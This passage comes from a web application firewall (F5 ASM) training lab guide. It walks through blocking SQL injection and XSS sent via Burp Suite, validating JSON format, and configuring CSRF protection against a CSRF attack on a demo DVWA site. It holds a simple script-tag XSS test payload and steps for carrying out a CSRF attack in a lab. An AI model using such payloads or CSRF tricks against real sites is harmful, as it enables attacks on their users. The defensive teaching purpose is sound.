| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Was the SQL injection attempt blocked by ASM?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Why or why not?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  In the Configuration Utility, open the **Security > Event Logs >
   Application >** **Requests** page, and then clear the filter by
   clicking on the **X** next to **Illegal Requests**.

-  For the **/api/v1/login** log entry, click **Attack signature
   detected**.

Question:

What signatures were matched for this request?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

ASM could parse the JSON parameters and identify the request as
malicious. However, it did not block the request because the signatures
are in staging.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

Exercise 4 – ASM Content Profiles
=================================

Task 1 – Review the JSON Content Profile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, navigate to **Security > Application
       Security > Content Profiles** and then right-click on **JSON**,
       and then select **Open Link in New Tab**..

-  Click **Default**.

   |image65|

The default JSON profile allows ASM to validate JSON format and check
the parameter names and values against signatures.

Task 2 – Enforce Signatures and Re-attempt the SQL Injection Attack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open the **Security > Application Security > Traffic Learning** page.

-  Expand the **Enforcement Readiness Summary** section.

-  Click the number indicating the number of signatures that are **Not
       Enforced And Have Suggestions**.

   |image66|

-  On the **Attack Signatures** page, select the checkboxes for the
       three signatures, and then click **Enforce** and then **OK**,
       then click **Apply Policy** and then **OK**.

-  In Burp Suite click **Go** to resend the request with the SQL
   injection attempt, and then examine the response.

Question:

Was the SQL injection attempt blocked by ASM?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  In the Configuration Utility, on the **Security > Event Logs >
   Application >** **Requests** tab refresh the page.

-  Select the blocked **/api/v1/login** log entry and examine the log
   details.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

Exercise 5 – JSON Format Validation
===================================

Task 1 – Review the JSON Content Profile
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In Burp Suite, change the username JSON parameter value to the
   following, and then click **Go**.

<script>window.alert("You have been hacked!!!");</script>

Question:

Was the request blocked? \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  In the Configuration Utility, on the **Security > Event Logs >
   Application >** **Requests** tab refresh the page.

-  Select the blocked **/api/v1/login** log entry.

<script>window.alert("You have been hacked!!!");</script>

Question:

Besides the signature violation, what other violation(s) were matched?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Not only were the XSS signatures matched but ASM is also validating
correct JSON formatting. This “positive security model” function would
help catch zero-day or obfuscated attacks that may NOT trigger a
signature.

-  Select the checkbox to select all the log entries, and then click
   **Delete Requests**.

Optional Lab 3 – Cross Site Request Forgery Protection

The purpose of this lab is to show in detail how ASM mitigates CSRF
attacks. You will perform a CSRF attack and compare how requests and
responses differ with and without ASM protection.

Exercise 1 – Review the CSRF Attack Page 
=========================================

Task 1 – Attempt a CSRF Attack on the Unprotected Web Site
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

**→NOTE:** Ensure Burp Suite is still running and set to **Intercept is
off**.

-  Open Firefox and access http://unprotected.f5demo.com and log in as
   **admin** / **password**.

-  Open another tab and access http://www.badkitties.com.

-  Click **Demo**.

This is a (ridiculously) simple webpage that has two links, **Bad
Kitty** and **Good Kitty**. Bad Kitty is a CSRF link to the unprotected
DVWA URL. Good Kitty is a CSRF link to the protected DVWA URL.

This is intended to mimic a real-word malicious page/link that sends a
request to another URL where the user MAY be authenticated, executing an
action the user did not intend; a CSRF attack.

-  Click on **Bad Kitty**.

Questions:

What “unintended” action was taken?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

At what URL was this action taken?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Why was this action successful?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Click the **Back** button until you return to the **Bad Kitties**
   page.

-  In the DVWA tab click **Logout**, and then attempt to log back in as
   **admin** / **password**.

-  On the Bad Kitties tab, mouse over **Bad Kitty** and see if you can
   identify what the **admin** password was changed to.

-  In the DVWA tab, log in as admin and the new password.

-  In the left menu click **CSRF** and use this page to change the
   password back to **password**, and then close both tabs.

Exercise 2 – Configure CSRF Protection and Attack a Protected URL
=================================================================

Task 1 – Create a Security Policy
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  In the Configuration Utility, open the **Security > Application
       Security > Security Policies > Policy List** page.

-  Click the **Create** button, and then select the **Advanced**
       settings.

   |image67|

-  Use the following information for the new policy, and then click
       **Create Policy**.

+----------------------------+-----------------------------------+
| **Policy Name**            | DVWA-Protected                    |
+============================+===================================+
| **Policy Template**        | Comprehensive (click **OK**)      |
+----------------------------+-----------------------------------+
| **Virtual Server**         | DVWA\_protected\_virtual (HTTP)   |
+----------------------------+-----------------------------------+
| **Application Language**   | Unicode (utf-8)                   |
+----------------------------+-----------------------------------+

-  Once the policy is created, click the link for **DVWA-Protected**.

   |image68|

-  Change the **Enforcement Readiness Period** to **0** days, then click
       **Save**.

Task 2 – Configure CSRF Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open the **Security > Application Security > CSRF Protection** page.

-  Ensure you are viewing the settings for **DVWA-Protected
   (blocking)**.

   |image69|

-  Select the **CSRF Protection** checkbox.

-  Select the **\*** checkbox, and then click **Delete**.

   |image70|

We’re removing the wildcard because we only want to inject the
JavaScript needed to generate the CSRT token on the change password
page.

-  Change from **Simple Edit Mode** to **Advanced Edit Mode**.

-  For the new URL, from the **Method** list select **GET**, and for
   **URL** copy and paste **/vulnerabilities/csrf/**, and then click
   **Add**.

   |image71|

-  Review the options for **Required Parameters**.

You now have the ability as part of CSRF protection to require specific
parameters

-  Review the options for **Enforcement Action**.

In previous versions, ASM protected URLs from CSRF attacks by use of a
CSRT token that was generated by injected JavaScript. You now can
provide CSRF protections for applications that may not be able to use
JavaScript injection by verifying the existence and value of the origin
HTTP header

-  Leave both **Required Parameters** and **Enforcement Options** set to
   the default values and click **Save**, then click **Apply Policy**
   and then **OK**.

Task 3 – Attempt a CSRF Attack on the Protected Web Site
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  Open Firefox and access http://protected.f5demo.com and log in as
   **admin** / **password**.

-  Open another tab and access http://www.badkitties.com, and then click
   **Demo**.

-  Click on **Good Kitty**.

Questions:

Was the CSRF attack successful?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Why or why not?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Close both tabs.

-  In the Configuration Utility, open the **Security > Event Logs >
   Application > Requests** page.

Question:

What is the **Attack Type**?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  Click **CSRF attack detected**.

Questions:

What is the **Violation Reason**?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

What is the **Enforcement Action**?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Task 4 – Examine the Presence of CSRF Protection
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

-  | Open Firefox and access http://unprotected.f5demo.com and log in as
     **admin** / **password**, and then
   | click **CSRF**.

-  | Open another tab and access http://protected.f5demo.com and log in
     as **admin** / **password**, and then
   | click **CSRF**.

-  In the unprotected DVWA tab, right-click on the **Change** button and
   select **Inspect Element**.

   |image72|

-  In the protected DVWA tab, right-click on the **Change** button and
   select **Inspect Element**.

Question:

What is different in the protected DVWA page?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

This is the cross-site request token (csrt) injected into the page by
ASM.

-  In the developer tools window select the **Network** tab, then click
   the trash can icon to delete any current requests.

   |image73|

-  Enter **password** into both fields to change the password, and then
   click **Change**.

-  | In the **Network** tab select the
     **/vulnerabilities/csrf/?password…** entry, and then examine
   | the **Params** tab.

   |image74|

Questions:

How many parameters were included in this request?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

What are the last four digits of the **csrt** parameter value?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

-  | Open Chrome and access http://protected.f5demo.com and log in as
     **admin** / **password**, and then
   | click **CSRF**.

-  Right-click on the **Change** button and select **Inspect**.

-  In the developer tools window select the **Network** tab.

-  Enter **password** into both fields to change the password, and then
   click **Change**.

-  In the **Network** tab select the
   **/vulnerabilities/csrf/?password…** entry, and in the **Headers**
   tab scroll down to the **Query String Parameters** section.

Questions:

| Are the last four digits of the **csrt** parameter the same as the one
  from Firefox?
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

| What does that tell you about the CSRT token for each session /
  browser?
| \_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

How does this mitigate CSRF attacks?
\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_\_

Many WAFs simply look at validating the referrer header in the request.
How could this approach be circumvented?

-  Close the Chrome and Firefox windows.

.. |image0| image:: media/image1.emf
   :width: 1.41042in
   :height: 1.10556in
.. |image1| image:: media/image3.png
   :width: 5.26247in
   :height: 2.96040in
.. |image2| image:: media/image4.png
   :width: 4.88119in
   :height: 3.55415in
.. |image3| image:: media/image5.png
   :width: 2.59189in
   :height: 0.82507in
.. |image4| image:: media/image6.png
   :width: 3.26667in
   :height: 1.04594in
.. |image5| image:: media/image7.png
   :width: 6.41667in
   :height: 0.76858in
.. |image6| image:: media/image8.png
   :width: 2.81691in
   :height: 2.18352in
.. |image7| image:: media/image9.png
   :width: 3.59198in
   :height: 0.77507in
.. |image8| image:: media/image10.png
   :width: 2.72524in
   :height: 0.55005in
.. |image9| image:: media/image11.png
   :width: 5.80694in
   :height: 1.59167in
.. |image10| image:: media/image12.png
   :width: 4.26704in
   :height: 0.76673in
.. |image11| image:: media/image13.png
   :width: 3.31667in
   :height: 1.09520in
.. |image12| image:: media/image14.png
   :width: 6.21667in
   :height: 1.40720in
.. |image13| image:: media/image15.png
   :width: 5.15878in
   :height: 0.65839in
.. |image14| image:: media/image16.png
   :width: 4.40833in
   :height: 1.84052in
.. |image15| image:: media/image17.png
   :width: 4.60686in
   :height: 0.90936in
.. |image16| image:: media/image18.png
   :width: 4.47539in
   :height: 0.65839in
.. |image17| image:: media/image19.png
   :width: 4.24016in
   :height: 0.46104in
.. |image18| image:: media/image20.png
   :width: 4.90065in
   :height: 0.59424in
.. |image19| image:: media/image21.png
   :width: 4.93376in
   :height: 0.80840in
.. |image20| image:: media/image22.png
   :width: 2.42500in
   :height: 1.30309in
.. |image21| image:: media/image23.png
   :width: 2.81691in
   :height: 0.93341in
.. |image22| image:: media/image24.png
   :width: 5.86718in
   :height: 0.87508in
.. |image23| image:: media/image25.png
   :width: 1.80849in
   :height: 0.93341in
.. |image24| image:: media/image26.png
   :width: 2.18518in
   :height: 1.00000in
.. |image25| image:: media/image27.png
   :width: 4.30000in
   :height: 1.26583in
.. |image26| image:: media/image28.png
   :width: 4.91987in
   :height: 0.83333in
.. |image27| image:: media/image29.png
   :width: 5.10878in
   :height: 0.86674in
.. |image28| image:: media/image30.png
   :width: 2.97500in
   :height: 1.69910in
.. |image29| image:: media/image31.png
   :width: 2.61463in
   :height: 1.52597in
.. |image30| image:: media/image32.png
   :width: 4.68374in
   :height: 0.53338in
.. |image31| image:: media/image33.png
   :width: 6.16667in
   :height: 1.60120in
.. |image32| image:: media/image34.png
   :width: 0.21181in
   :height: 0.23333in
.. |image33| image:: media/image35.png
   :width: 0.19167in
   :height: 0.19167in
.. |image34| image:: media/image36.png
   :width: 5.72500in
   :height: 1.47036in
.. |image35| image:: media/image37.png
   :width: 6.05000in
   :height: 0.40230in
.. |image36| image:: media/image38.png
   :width: 3.39167in
   :height: 1.47432in
.. |image37| image:: media/image39.png
   :width: 4.05035in
   :height: 0.37503in
.. |image38| image:: media/image40.png
   :width: 5.46667in
   :height: 2.00087in
.. |image39| image:: media/image41.png
   :width: 2.46688in
   :height: 0.79174in
.. |image40| image:: media/image42.png
   :width: 1.99184in
   :height: 0.59172in
.. |image41| image:: media/image43.png
   :width: 5.78333in
   :height: 1.47744in
.. |image42| image:: media/image44.png
   :width: 2.92525in
   :height: 0.40837in
.. |image43| image:: media/image45.png
   :width: 3.35000in
   :height: 1.09869in
.. |image44| image:: media/image46.png
   :width: 4.09167in
   :height: 2.91549in
.. |image45| image:: media/image47.png
   :width: 6.00052in
   :height: 0.78340in
.. |image46| image:: media/image48.png
   :width: 5.36713in
   :height: 0.33336in
.. |image47| image:: media/image49.png
   :width: 2.26686in
   :height: 1.26678in
.. |image48| image:: media/image50.png
   :width: 4.94210in
   :height: 0.91675in
.. |image49| image:: media/image51.png
   :width: 5.00347in
   :height: 0.28635in
.. |image50| image:: media/image52.png
   :width: 1.23953in
   :height: 1.18831in
.. |image51| image:: media/image53.png
   :width: 5.62500in
   :height: 1.04542in
.. |image52| image:: media/image54.png
   :width: 6.31667in
   :height: 0.50461in
.. |image53| image:: media/image55.png
   :width: 2.40854in
   :height: 1.34178in
.. |image54| image:: media/image56.png
   :width: 3.61698in
   :height: 0.61672in
.. |image55| image:: media/image57.png
   :width: 6.13386in
   :height: 0.78340in
.. |image56| image:: media/image58.png
   :width: 2.41688in
   :height: 0.34170in
.. |image57| image:: media/image59.png
   :width: 5.75833in
   :height: 1.01618in
.. |image58| image:: media/image60.png
   :width: 6.23333in
   :height: 1.56570in
.. |image59| image:: media/image61.png
   :width: 1.20010in
   :height: 1.27511in
.. |image60| image:: media/image62.png
   :width: 5.83384in
   :height: 0.33336in
.. |image61| image:: media/image63.png
   :width: 4.14203in
   :height: 0.55838in
.. |image62| image:: media/image64.png
   :width: 3.99201in
   :height: 1.11676in
.. |image63| image:: media/image65.png
   :width: 4.50000in
   :height: 2.04476in
.. |image64| image:: media/image66.png
   :width: 4.51667in
   :height: 1.79440in
.. |image65| image:: media/image67.png
   :width: 3.57500in
   :height: 2.15407in
.. |image66| image:: media/image68.png
   :width: 5.37500in
   :height: 2.63652in
.. |image67| image:: media/image69.png
   :width: 1.17510in
   :height: 0.68339in
.. |image68| image:: media/image70.png
   :width: 3.43363in
   :height: 0.46671in
.. |image69| image:: media/image71.png
   :width: 2.84191in
   :height: 0.53338in
.. |image70| image:: media/image72.png
   :width: 4.33371in
   :height: 1.39179in
.. |image71| image:: media/image73.png
   :width: 6.31986in
   :height: 1.10000in
.. |image72| image:: media/image74.png
   :width: 3.43363in
   :height: 0.47504in
.. |image73| image:: media/image75.png
   :width: 6.18333in
   :height: 0.68880in
.. |image74| image:: media/image76.png
   :width: 6.32500in
   :height: 1.25790in
